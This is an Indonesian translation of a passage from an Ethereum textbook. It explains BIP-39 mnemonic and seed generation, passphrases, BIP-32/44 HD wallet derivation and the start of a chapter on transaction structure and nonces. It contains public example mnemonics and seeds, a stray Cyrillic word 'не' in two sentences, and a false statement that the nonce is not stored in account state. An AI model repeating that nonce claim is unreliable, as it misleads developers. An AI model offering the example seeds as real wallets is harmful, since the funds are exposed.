> Kata-kata mnemonic sering disalahartikan dengan “brainwallets.” Keduanya tidak sama. Perbedaan utamanya adalah *brainwallet* terdiri dari kata-kata yang dipilih oleh pengguna, sedangkan kata-kata mnemonic dibuat secara acak oleh dompet dan disajikan kepada pengguna. Perbedaan penting ini membuat kata-kata mnemonic jauh lebih aman, karena manusia adalah sumber keacakan yang sangat buruk. Mungkin yang lebih penting, menggunakan istilah “brainwallet” menyiratkan bahwa kata-kata tersebut harus dihafal, yang merupakan ide yang buruk, dan resep untuk tidak memiliki cadangan Anda saat Anda membutuhkannya.

Kode mnemonic didefinisikan dalam BIP-39. Perhatikan bahwa BIP-39 adalah salah satu implementasi dari standar kode mnemonic. Ada standar yang berbeda, dengan seperangkat kata yang berbeda, yang digunakan oleh dompet Bitcoin Electrum dan mendahului BIP-39. BIP-39 diusulkan oleh perusahaan di balik dompet perangkat keras Trezor dan tidak kompatibel dengan implementasi Electrum. Namun, BIP-39 kini telah mencapai dukungan industri yang luas di puluhan implementasi yang dapat dioperasikan dan harus dianggap sebagai standar industri de facto. Selanjutnya, BIP-39 dapat digunakan untuk menghasilkan dompet multikurensi yang mendukung Ethereum, sedangkan *seed* Electrum tidak bisa.

BIP-39 mendefinisikan pembuatan kode mnemonic dan *seed*, yang kami jelaskan di sini dalam sembilan langkah. Untuk kejelasan, prosesnya dibagi menjadi dua bagian: langkah 1 hingga 6 ditunjukkan di “Menghasilkan kata-kata mnemonic” di halaman 86 dan langkah 7 hingga 9 ditunjukkan di “Dari mnemonic ke seed”.

### Menghasilkan kata-kata mnemonic

Kata-kata mnemonic dihasilkan secara otomatis oleh dompet menggunakan proses terstandarisasi yang didefinisikan dalam BIP-39. Dompet dimulai dari sumber entropi (sumber keacakan), menambahkan *checksum*, lalu memetakan entropi tersebut ke daftar kata:

1.  Buat urutan acak secara kriptografis ($S$) dengan panjang 128 hingga 256 bit.
2.  Buat *checksum* dari $S$ dengan mengambil bit-bit pertama dari hash SHA-256 dari $S$. Jumlah bit yang diambil adalah `(panjang S) / 32`.
3.  Tambahkan *checksum* ke akhir urutan acak $S$.
4.  Bagi gabungan urutan-dan-*checksum* menjadi beberapa bagian yang masing-masing panjangnya 11 bit.
5.  Petakan setiap nilai 11-bit ke sebuah kata dari kamus yang telah ditentukan sebelumnya yang berisi 2.048 kata.
6.  Buat kode mnemonic dari urutan kata-kata tersebut, dengan tetap mempertahankan urutannya.

Gambar 5-2 menunjukkan bagaimana entropi digunakan untuk menghasilkan kata-kata mnemonic.

Tabel 5-1 menunjukkan hubungan antara ukuran data entropi dan panjang kode mnemonic dalam jumlah kata.

<p align="center">
  
</p>

<p align="center">
  
</p>

### Dari mnemonic ke seed

Kata-kata mnemonic merepresentasikan entropi dengan panjang 128 hingga 256 bit. Entropi tersebut kemudian digunakan untuk menurunkan *seed* yang lebih panjang (512-bit) melalui penggunaan **fungsi peregangan kunci (key-stretching function) PBKDF2**. *Seed* yang dihasilkan digunakan untuk membangun dompet deterministik dan menurunkan kunci-kuncinya.

Fungsi peregangan kunci mengambil dua parameter: **mnemonic** dan **salt**. Tujuan dari *salt* dalam fungsi peregangan kunci adalah untuk menyulitkan pembuatan tabel pencarian (*lookup table*) yang memungkinkan serangan *brute-force*. Dalam standar BIP-39, *salt* memiliki tujuan lain: memungkinkan pengenalan *passphrase* yang berfungsi sebagai faktor keamanan tambahan yang melindungi *seed*, seperti yang akan kami jelaskan lebih detail di “Passphrase opsional dalam BIP-39” di halaman 90.

Proses yang dijelaskan dalam langkah 7 hingga 9 berlanjut dari proses yang dijelaskan di bagian sebelumnya:

7.  Parameter pertama untuk fungsi peregangan kunci PBKDF2 adalah mnemonic yang dihasilkan pada langkah 6.
8.  Parameter kedua untuk fungsi peregangan kunci PBKDF2 adalah *salt*. *Salt* terdiri dari konstanta string `"mnemonic"` yang digabungkan dengan *passphrase* opsional yang disediakan pengguna.
9.  PBKDF2 meregangkan parameter mnemonic dan *salt* menggunakan 2.048 putaran hashing dengan algoritma HMAC-SHA512, menghasilkan nilai 512-bit sebagai output akhirnya. Nilai 512-bit itulah yang menjadi **seed**.

Gambar 5-3 menunjukkan bagaimana sebuah mnemonic digunakan untuk menghasilkan *seed*.

<p align="center">
  
</p>

> Fungsi peregangan kunci, dengan 2.048 putaran hashing-nya, merupakan perlindungan yang cukup efektif terhadap serangan *brute-force* terhadap mnemonic atau *passphrase*. Hal ini membuatnya mahal (secara komputasi) untuk mencoba lebih dari beberapa ribu kombinasi *passphrase* dan mnemonic, sementara jumlah kemungkinan *seed* yang diturunkan sangat besar ($2^{512}$, atau sekitar $10^{154}$)—jauh lebih besar dari jumlah atom di alam semesta yang terlihat (sekitar $10^{80}$).

Tabel 5-2, 5-3, dan 5-4 menunjukkan beberapa contoh kode mnemonic dan *seed* yang dihasilkannya.

**Tabel 5-2. Kode mnemonic entropi 128-bit, tanpa passphrase, menghasilkan seed**
| | |
|---|---|
|**Input Entropi (128 bit)**|`0c1e24e5917779d297e14d45f14e1a1a`|
|**mnemonic (12 kata)**|`army van defense carry jealous true garbage claim echo media make crunch`|
|**Passphrase**| (tidak ada) |
|**Seed (512 bit)**|`5b56c417303faa3fcba7e57400e120a0ca83ec5a4fc9ffba757fbe63fbd77a89a1a3be4c67196f57c39a88b76373733891bfaba16ed27a813ceed498804c0570`|

**Tabel 5-3. Kode mnemonic entropi 128-bit, dengan passphrase, menghasilkan seed**
| | |
|---|---|
|**Input Entropi (128 bit)**|`0c1e24e5917779d297e14d45f14e1a1a`|
|**mnemonic (12 kata)**|`army van defense carry jealous true garbage claim echo media make crunch`|
|**Passphrase**|`SuperDuperSecret`|
|**Seed (512 bit)**|`3b5df16df2157104cfdd22830162a5e170c0161653e3afe6c88defeefb0818c793dbb28ab3ab091897d0715861dc8a18358f80b79d49acf64142ae57037d1d54`|

**Tabel 5-4. Kode mnemonic entropi 256-bit, tanpa passphrase, menghasilkan seed**
| | |
|---|---|
|**Input Entropi (256 bit)**|`2041546864449caff939d32d574753fe684d3c947c3346713dd8423e74abcf8c`|
|**Mnemonic (24 kata)**|`cake apple borrow silk endorse fitness top denial coil riot stay wolf luggage oxygen faint major edit measure invite love trap field dilemma oblige`|
|**Passphrase**| (tidak ada) |
|**Seed (512 bit)**|`3269bce2674acbd188d4f120072b13b088a0ecf87c6e4cae41657a0bb78f5315b33b3a04356e53d062e55f1e0deaa082df8d487381379df848a6ad7e98798404`|

### Passphrase opsional dalam BIP-39

Standar BIP-39 memungkinkan penggunaan *passphrase* opsional dalam derivasi *seed*. Jika tidak ada *passphrase* yang digunakan, mnemonic diregangkan dengan *salt* yang terdiri dari string konstan `"mnemonic"`, menghasilkan *seed* 512-bit spesifik dari mnemonic tertentu. Jika *passphrase* digunakan, fungsi peregangan menghasilkan *seed* yang berbeda dari mnemonic yang sama. Faktanya, dengan satu mnemonic, setiap *passphrase* yang mungkin akan menghasilkan *seed* yang berbeda. Intinya, tidak ada *passphrase* yang “salah”. Semua *passphrase* valid dan semuanya mengarah ke *seed* yang berbeda, membentuk sekumpulan besar kemungkinan dompet yang belum diinisialisasi. Kumpulan dompet yang mungkin sangat besar ($2^{512}$) sehingga tidak ada kemungkinan praktis untuk melakukan *brute-forcing* atau menebak secara tidak sengaja salah satu yang sedang digunakan, selama *passphrase* memiliki kompleksitas dan panjang yang cukup.

> Tidak ada *passphrase* yang “salah” dalam BIP-39. Setiap *passphrase* mengarah ke beberapa dompet, yang kecuali sebelumnya digunakan akan kosong.

*Passphrase* opsional menciptakan dua fitur penting:

  * **Faktor kedua** (sesuatu yang dihafal) yang membuat mnemonic tidak berguna jika berdiri sendiri, melindungi cadangan mnemonic dari kompromi oleh pencuri.
  * Bentuk **penyangkalan yang masuk akal (*plausible deniability*)** atau “dompet paksaan (*duress wallet*)”, di mana *passphrase* yang dipilih mengarah ke dompet dengan sejumlah kecil dana, digunakan untuk mengalihkan perhatian penyerang dari dompet “asli” yang berisi sebagian besar dana.

Namun, penting untuk dicatat bahwa penggunaan *passphrase* juga membawa risiko kehilangan:

  * Jika pemilik dompet tidak mampu atau meninggal dan tidak ada orang lain yang tahu *passphrase*-nya, *seed* menjadi tidak berguna dan semua dana yang disimpan di dompet akan hilang selamanya.
  * Sebaliknya, jika pemilik mencadangkan *passphrase* di tempat yang sama dengan *seed*, itu mengalahkan tujuan dari faktor kedua.

Meskipun *passphrase* sangat berguna, mereka hanya boleh digunakan dalam kombinasi dengan proses yang direncanakan dengan cermat untuk pencadangan dan pemulihan, dengan mempertimbangkan kemungkinan ahli waris yang masih hidup dari pemilik dapat memulihkan mata uang kripto tersebut.

### Bekerja dengan kode mnemonic

BIP-39 diimplementasikan sebagai pustaka dalam banyak bahasa pemrograman yang berbeda. Sebagai contoh:

  * **python-mnemonic**
    Implementasi referensi standar oleh tim SatoshiLabs yang mengusulkan BIP-39, dalam Python.
  * **ConsenSys/eth-lightwallet**
    Dompet JS Ethereum ringan untuk *node* dan *browser* (dengan BIP-39).
  * **npm/bip39**
    Implementasi JavaScript dari Bitcoin BIP-39: Kode mnemonic untuk menghasilkan kunci deterministik.

Ada juga generator BIP-39 yang diimplementasikan dalam halaman web mandiri (Gambar 5-4), yang sangat berguna untuk pengujian dan eksperimen. Mnemonic Code Converter menghasilkan mnemonic, *seed*, dan kunci privat yang diperluas. Ini dapat digunakan secara luring di browser, atau diakses secara daring.

<p align="center">
  
</p>

### Membuat Dompet HD dari Seed

Dompet HD dibuat dari satu **root seed**, yang merupakan angka acak 128-, 256-, atau 512-bit. Paling umum, *seed* ini dihasilkan dari mnemonic seperti yang dijelaskan di bagian sebelumnya.

Setiap kunci di dompet HD diturunkan secara deterministik dari *root seed* ini, yang memungkinkan untuk membuat ulang seluruh dompet HD dari *seed* tersebut di dompet HD lain yang kompatibel. Hal ini memudahkan untuk mengekspor, mencadangkan, memulihkan, dan mengimpor dompet HD yang berisi ribuan atau bahkan jutaan kunci dengan hanya mentransfer mnemonic dari mana *root seed* diturunkan.

### Dompet HD (BIP-32) dan Path (BIP-43/44)

Sebagian besar dompet HD mengikuti standar BIP-32, yang telah menjadi standar industri de facto untuk pembuatan kunci deterministik.

Kami не akan membahas semua detail BIP-32 di sini, hanya komponen yang diperlukan untuk memahami bagaimana ia digunakan di dompet. Aspek penting utama adalah hubungan hirarkis seperti pohon yang dapat dimiliki oleh kunci-kunci turunan, seperti yang dapat Anda lihat di Gambar 5-1. Penting juga untuk memahami gagasan tentang kunci yang diperluas (*extended keys*) dan kunci yang diperkeras (*hardened keys*), yang dijelaskan di bagian berikut.

Ada puluhan implementasi BIP-32 yang dapat dioperasikan yang ditawarkan di banyak pustaka perangkat lunak. Sebagian besar dirancang untuk dompet Bitcoin, yang mengimplementasikan alamat dengan cara yang berbeda, tetapi berbagi implementasi derivasi kunci yang sama dengan dompet Ethereum yang kompatibel dengan BIP-32. Gunakan yang dirancang untuk Ethereum, atau adaptasi dari Bitcoin dengan menambahkan pustaka pengkodean alamat Ethereum.

Ada juga generator BIP-32 yang diimplementasikan sebagai halaman web mandiri yang sangat berguna untuk pengujian dan eksperimen dengan BIP-32.

> Generator BIP-32 mandiri bukanlah situs HTTPS. Itu untuk mengingatkan Anda bahwa penggunaan alat ini tidak aman. Ini hanya untuk pengujian. Anda tidak boleh menggunakan kunci yang dihasilkan oleh situs ini dengan dana nyata.

#### Kunci publik dan privat yang diperluas (Extended)

Dalam terminologi BIP-32, kunci dapat “diperluas” (*extended*). Dengan operasi matematika yang tepat, kunci “induk” yang diperluas ini dapat digunakan untuk menurunkan kunci “anak”, sehingga menghasilkan hirarki kunci dan alamat yang dijelaskan sebelumnya. Kunci induk tidak harus berada di puncak pohon. Ia dapat dipilih dari mana saja dalam hirarki pohon.

Memperluas kunci melibatkan pengambilan kunci itu sendiri dan menambahkan **chain code** khusus padanya. *Chain code* adalah string biner 256-bit yang dicampur dengan setiap kunci untuk menghasilkan kunci anak.

Jika kuncinya adalah kunci privat, ia menjadi **kunci privat yang diperluas** yang dibedakan dengan awalan `xprv`:
`xprv9s21ZrQH143K2JF8RafpqtKiTbsbaxEeUaMnNHsm5o6wCW3z8ySyH4UxFVSfZ8n7ESu7fgir8i...`

**Kunci publik yang diperluas** dibedakan dengan awalan `xpub`:
`xpub661MyMwAqRbcEnKbXcCqD2GT1di5zQxVqoHPAgHNe8dv5JP8gWmDproS6kFHJnLZd23tWevhdn...`

Karakteristik yang sangat berguna dari dompet HD adalah kemampuan untuk menurunkan kunci publik anak dari kunci publik induk, tanpa memiliki kunci privat. Ini memberi kita dua cara untuk menurunkan kunci publik anak: baik langsung dari kunci privat anak, atau dari kunci publik induk.

Kunci publik yang diperluas dapat digunakan, oleh karena itu, untuk menurunkan semua kunci publik (dan hanya kunci publik) di cabang struktur dompet HD tersebut.

Jalan pintas ini dapat digunakan untuk membuat penyebaran hanya-kunci-publik yang sangat aman, di mana server atau aplikasi memiliki salinan kunci publik yang diperluas, tetapi tidak ada kunci privat sama sekali. Jenis penyebaran seperti itu dapat menghasilkan jumlah kunci publik dan alamat Ethereum yang tak terbatas, tetapi tidak dapat membelanjakan uang apa pun yang dikirim ke alamat-alamat tersebut. Sementara itu, di server lain yang lebih aman, kunci privat yang diperluas dapat menurunkan semua kunci privat yang sesuai untuk menandatangani transaksi dan membelanjakan uang.

Salah satu aplikasi umum dari metode ini adalah menginstal kunci publik yang diperluas di server web yang melayani aplikasi *e-commerce*. Server web dapat menggunakan fungsi derivasi kunci publik untuk membuat alamat Ethereum baru untuk setiap transaksi (misalnya, untuk keranjang belanja pelanggan), dan tidak akan memiliki kunci privat apa pun yang rentan terhadap pencurian. Tanpa dompet HD, satu-satunya cara untuk melakukan ini adalah dengan menghasilkan ribuan alamat Ethereum di server aman terpisah dan kemudian memuatnya di server *e-commerce*. Pendekatan itu merepotkan dan memerlukan pemeliharaan terus-menerus untuk memastikan bahwa server не kehabisan kunci, oleh karena itu preferensi untuk menggunakan kunci publik yang diperluas dari dompet HD.

Aplikasi umum lain dari solusi ini adalah untuk *cold-storage* atau dompet perangkat keras. Dalam skenario itu, kunci privat yang diperluas dapat disimpan di dompet perangkat keras, sementara kunci publik yang diperluas dapat disimpan secara daring. Pengguna dapat membuat alamat “terima” sesuka hati, sementara kunci privat disimpan dengan aman secara luring. Untuk membelanjakan dana, pengguna dapat menggunakan kunci privat yang diperluas di klien Ethereum penandatangan luring, atau menandatangani transaksi di perangkat dompet perangkat keras.

#### Derivasi kunci anak yang diperkeras (Hardened)

Kemampuan untuk menurunkan cabang kunci publik dari kunci publik yang diperluas, atau `xpub`, sangat berguna, tetapi datang dengan risiko potensial. Akses ke `xpub` tidak memberikan akses ke kunci privat anak. Namun, karena `xpub` berisi *chain code* (digunakan untuk menurunkan kunci publik anak dari kunci publik induk), jika kunci privat anak diketahui, atau entah bagaimana bocor, ia dapat digunakan dengan *chain code* untuk menurunkan semua kunci privat anak lainnya. Satu kunci privat anak yang bocor, bersama dengan *chain code* induk, mengungkapkan semua kunci privat dari semua anak. Lebih buruk lagi, kunci privat anak bersama dengan *chain code* induk dapat digunakan untuk menyimpulkan kunci privat induk.

Untuk mengatasi risiko ini, dompet HD menggunakan fungsi derivasi alternatif yang disebut **derivasi yang diperkeras (hardened derivation)**, yang “memutus” hubungan antara kunci publik induk dan *chain code* anak. Fungsi derivasi yang diperkeras menggunakan kunci privat induk untuk menurunkan *chain code* anak, alih-alih kunci publik induk. Ini menciptakan “firewall” dalam urutan induk/anak, dengan *chain code* yang tidak dapat digunakan untuk mengkompromikan kunci privat induk atau saudara.

Secara sederhana, jika Anda ingin menggunakan kemudahan `xpub` untuk menurunkan cabang kunci publik tanpa mengekspos diri Anda pada risiko *chain code* yang bocor, Anda harus menurunkannya dari induk yang diperkeras, bukan induk normal. Praktik terbaik adalah memiliki anak-anak tingkat-1 dari kunci master selalu diturunkan dengan derivasi yang diperkeras, untuk mencegah kompromi kunci master.

#### Nomor indeks untuk derivasi normal dan hardened

Jelas diinginkan untuk dapat menurunkan lebih dari satu kunci anak dari kunci induk tertentu. Untuk mengelola ini, nomor indeks digunakan. Setiap nomor indeks, ketika dikombinasikan dengan kunci induk menggunakan fungsi derivasi anak khusus, memberikan kunci anak yang berbeda. Nomor indeks yang digunakan dalam fungsi derivasi induk-ke-anak BIP-32 adalah integer 32-bit. Untuk dengan mudah membedakan antara kunci yang diturunkan melalui fungsi derivasi normal (tidak diperkeras) versus kunci yang diturunkan melalui derivasi yang diperkeras, nomor indeks ini dibagi menjadi dua rentang. Nomor indeks antara 0 dan $2^{31}–1$ (0x0 hingga 0x7FFFFFFF) hanya digunakan untuk derivasi normal. Nomor indeks antara $2^{31}$ dan $2^{32}–1$ (0x80000000 hingga 0xFFFFFFFF) hanya digunakan untuk derivasi yang diperkeras. Oleh karena itu, jika nomor indeks kurang dari $2^{31}$, anaknya normal, sedangkan jika nomor indeks sama dengan atau di atas $2^{31}$, anaknya diperkeras.

Untuk membuat nomor indeks lebih mudah dibaca dan ditampilkan, nomor indeks untuk anak yang diperkeras ditampilkan mulai dari nol, tetapi dengan simbol prima (apostrof). Kunci anak normal pertama oleh karena itu ditampilkan sebagai `0`, sedangkan anak yang diperkeras pertama (indeks 0x80000000) ditampilkan sebagai `0'`. Secara berurutan, maka, kunci yang diperkeras kedua akan memiliki indeks 0x80000001 dan akan ditampilkan sebagai `1'`, dan seterusnya. Ketika Anda melihat indeks dompet HD `i'`, itu berarti $2^{31} + i$.

#### Pengidentifikasi kunci dompet HD (path)

Kunci dalam dompet HD diidentifikasi menggunakan konvensi penamaan “path”, dengan setiap tingkat pohon dipisahkan oleh karakter garis miring (`/`) (lihat Tabel 5-5). Kunci privat yang diturunkan dari kunci privat master dimulai dengan `m`. Kunci publik yang diturunkan dari kunci publik master dimulai dengan `M`. Oleh karena itu, kunci privat anak pertama dari kunci privat master adalah `m/0`. Kunci publik anak pertama adalah `M/0`. Cucu kedua dari anak pertama adalah `m/0/1`, dan seterusnya.

“Silsilah” sebuah kunci dibaca dari kanan ke kiri, hingga Anda mencapai kunci master dari mana ia diturunkan. Misalnya, pengidentifikasi `m/x/y/z` menjelaskan kunci yang merupakan anak ke-`z` dari kunci `m/x/y`, yang merupakan anak ke-`y` dari kunci `m/x`, yang merupakan anak ke-`x` dari `m`.

<p align="center">
  
</p>

#### Menavigasi struktur pohon dompet HD

Struktur pohon dompet HD sangat fleksibel. Sisi lain dari ini adalah bahwa ia juga memungkinkan kompleksitas tanpa batas: setiap kunci yang diperluas induk dapat memiliki 4 miliar anak: 2 miliar anak normal dan 2 miliar anak yang diperkeras. Masing-masing anak tersebut dapat memiliki 4 miliar anak lagi, dan seterusnya. Pohon bisa sedalam yang Anda inginkan, dengan jumlah generasi yang berpotensi tak terbatas. Dengan semua potensi itu, bisa menjadi cukup sulit untuk menavigasi pohon-pohon yang sangat besar ini.

Dua BIP menawarkan cara untuk mengelola kompleksitas potensial ini dengan menciptakan standar untuk struktur pohon dompet HD. **BIP-43** mengusulkan penggunaan indeks anak yang diperkeras pertama sebagai pengidentifikasi khusus yang menandakan “tujuan” (*purpose*) dari struktur pohon. Berdasarkan BIP-43, dompet HD harus menggunakan hanya satu cabang tingkat-1 dari pohon, dengan nomor indeks mendefinisikan tujuan dompet dengan mengidentifikasi struktur dan ruang nama dari sisa pohon. Lebih spesifik, dompet HD yang hanya menggunakan cabang `m/i'/…` dimaksudkan untuk menandakan tujuan tertentu dan tujuan itu diidentifikasi oleh nomor indeks `i`.

Memperluas spesifikasi itu, **BIP-44** mengusulkan struktur multikurensi dan multiakun yang ditandai dengan menetapkan nomor “tujuan” ke `44'`. Semua dompet HD yang mengikuti struktur BIP-44 diidentifikasi oleh fakta bahwa mereka hanya menggunakan satu cabang pohon: `m/44'/*`.

BIP-44 menetapkan struktur sebagai terdiri dari lima tingkat pohon yang telah ditentukan sebelumnya:
`m / purpose' / coin_type' / account' / change / address_index`

  * Tingkat pertama, **purpose'**, selalu diatur ke `44'`.
  * Tingkat kedua, **coin\_type'**, menentukan jenis koin mata uang kripto, memungkinkan dompet HD multikurensi di mana setiap mata uang memiliki sub-pohonnya sendiri di bawah tingkat kedua. Ada beberapa mata uang yang didefinisikan dalam dokumen standar yang disebut SLIP0044; misalnya, Ethereum adalah `m/44'/60'`, Ethereum Classic adalah `m/44'/61'`, Bitcoin adalah `m/44'/0'`, dan Testnet untuk semua mata uang adalah `m/44'/1'`.
  * Tingkat ketiga dari pohon adalah **account'**, yang memungkinkan pengguna untuk membagi dompet mereka menjadi sub-akun logis terpisah untuk tujuan akuntansi atau organisasi. Misalnya, dompet HD mungkin berisi dua “akun” Ethereum: `m/44'/60'/0'` dan `m/44'/60'/1'`. Setiap akun adalah akar dari sub-pohonnya sendiri.
  * Karena BIP-44 awalnya dibuat untuk Bitcoin, ia berisi “keanehan” yang tidak relevan di dunia Ethereum. Pada tingkat keempat dari path, **change**, dompet HD memiliki dua sub-pohon: satu untuk membuat alamat penerima dan satu untuk membuat alamat kembalian. Hanya path “terima” yang digunakan di Ethereum, karena tidak ada keharusan untuk alamat kembalian seperti yang ada di Bitcoin. Perhatikan bahwa sementara tingkat sebelumnya menggunakan derivasi yang diperkeras, tingkat ini menggunakan derivasi normal. Ini untuk memungkinkan tingkat akun dari pohon mengekspor kunci publik yang diperluas untuk digunakan di lingkungan yang tidak aman.
  * Alamat yang dapat digunakan diturunkan oleh dompet HD sebagai anak-anak dari tingkat keempat, menjadikan tingkat kelima dari pohon sebagai **address\_index**. Misalnya, alamat penerima ketiga untuk pembayaran Ethereum di akun utama akan menjadi `M/44'/60'/0'/0/2`.

Tabel 5-6 menunjukkan beberapa contoh lagi.

<p align="center">
  
</p>

### Kesimpulan

Dompet adalah fondasi dari setiap aplikasi blockchain yang menghadap pengguna. Mereka memungkinkan pengguna untuk mengelola koleksi kunci dan alamat. Dompet juga memungkinkan pengguna untuk menunjukkan kepemilikan mereka atas ether, dan mengotorisasi transaksi, dengan menerapkan tanda tangan digital, seperti yang akan kita lihat di Bab 6.

---

# BAB 6
## Transaksi

**Transaksi** adalah pesan yang ditandatangani yang berasal dari akun milik eksternal (*externally owned account* - EOA), ditransmisikan oleh jaringan Ethereum, dan dicatat di blockchain Ethereum. Definisi dasar ini menyembunyikan banyak detail yang mengejutkan dan menarik. Cara lain untuk melihat transaksi adalah sebagai satu-satunya hal yang dapat memicu perubahan keadaan (*state*), atau menyebabkan sebuah kontrak dieksekusi di EVM. Ethereum adalah mesin keadaan tunggal (*singleton state machine*) global, dan transaksi adalah apa yang membuat mesin keadaan itu "berdetak," mengubah keadaannya.

Kontrak tidak berjalan sendiri. Ethereum tidak berjalan secara otonom. Semuanya dimulai dengan sebuah transaksi.

Dalam bab ini, kita akan membedah transaksi, menunjukkan cara kerjanya, dan memeriksa detailnya. Perhatikan bahwa sebagian besar bab ini ditujukan bagi mereka yang tertarik mengelola transaksi mereka sendiri pada tingkat rendah, mungkin karena mereka sedang menulis aplikasi dompet; Anda tidak perlu khawatir tentang ini jika Anda senang menggunakan aplikasi dompet yang ada, meskipun Anda mungkin menemukan detailnya menarik\!

### Struktur Transaksi

Pertama, mari kita lihat struktur dasar sebuah transaksi, sebagaimana ia diserialisasi dan ditransmisikan di jaringan Ethereum. Setiap klien dan aplikasi yang menerima transaksi yang diserialisasi akan menyimpannya di dalam memori menggunakan struktur data internalnya sendiri, mungkin dihiasi dengan metadata yang tidak ada dalam transaksi yang diserialisasi di jaringan itu sendiri. Serialisasi jaringan adalah satu-satunya bentuk standar dari sebuah transaksi.

Transaksi adalah pesan biner yang diserialisasi yang berisi data berikut:

  * **Nonce**
    Nomor urut, yang dikeluarkan oleh EOA asal, digunakan untuk mencegah pemutaran ulang pesan (*message replay*).
  * **Harga gas (Gas price)**
    Harga gas (dalam wei) yang bersedia dibayar oleh pengirim.
  * **Batas gas (Gas limit)**
    Jumlah maksimum gas yang bersedia dibeli oleh pengirim untuk transaksi ini.
  * **Penerima (Recipient)**
    Alamat tujuan Ethereum.
  * **Nilai (Value)**
    Jumlah ether yang akan dikirim ke tujuan.
  * **Data**
    Muatan data biner (*binary data payload*) dengan panjang variabel.
  * **v,r,s**
    Tiga komponen dari tanda tangan digital ECDSA dari EOA asal.

Struktur pesan transaksi diserialisasi menggunakan skema pengkodean **Recursive Length Prefix (RLP)**, yang dibuat khusus untuk serialisasi data yang sederhana dan sempurna-per-byte (*byte-perfect*) di Ethereum. Semua angka di Ethereum dikodekan sebagai integer *big-endian*, dengan panjang yang merupakan kelipatan 8 bit.

Perhatikan bahwa label bidang (*to, gas limit*, dll.) ditampilkan di sini untuk kejelasan, tetapi bukan bagian dari data transaksi yang diserialisasi, yang berisi nilai-nilai bidang yang dikodekan dengan RLP. Secara umum, RLP tidak mengandung pembatas bidang atau label apa pun. Awalan panjang RLP digunakan untuk mengidentifikasi panjang setiap bidang. Apa pun di luar panjang yang ditentukan menjadi milik bidang berikutnya dalam struktur.

Meskipun ini adalah struktur transaksi aktual yang ditransmisikan, sebagian besar representasi internal dan visualisasi antarmuka pengguna memperindahnya dengan informasi tambahan, yang berasal dari transaksi atau dari blockchain.

Misalnya, Anda mungkin memperhatikan tidak ada data "from" di alamat yang mengidentifikasi EOA asal. Itu karena kunci publik EOA dapat diturunkan dari komponen `v,r,s` dari tanda tangan ECDSA. Alamat, pada gilirannya, dapat diturunkan dari kunci publik. Ketika Anda melihat transaksi yang menunjukkan bidang "from", itu ditambahkan oleh perangkat lunak yang digunakan untuk memvisualisasikan transaksi tersebut. Metadata lain yang sering ditambahkan ke transaksi oleh perangkat lunak klien termasuk nomor blok (setelah ditambang dan dimasukkan ke dalam blockchain) dan ID transaksi (hash yang dihitung). Sekali lagi, data ini berasal dari transaksi, dan bukan merupakan bagian dari pesan transaksi itu sendiri.

### Nonce Transaksi

Nonce adalah salah satu komponen transaksi yang paling penting dan paling sedikit dipahami. Definisi dalam *Yellow Paper* (lihat “Bacaan Lebih Lanjut”) berbunyi:

> **nonce**: Nilai skalar yang sama dengan jumlah transaksi yang dikirim dari alamat ini atau, dalam kasus akun dengan kode terkait, jumlah pembuatan kontrak yang dibuat oleh akun ini.

Secara tegas, nonce adalah atribut dari alamat asal; artinya, ia hanya memiliki makna dalam konteks alamat pengirim. Namun, nonce tidak disimpan secara eksplisit sebagai bagian dari keadaan akun di blockchain. Sebaliknya, ia dihitung secara dinamis, dengan menghitung jumlah transaksi terkonfirmasi yang berasal dari suatu alamat.

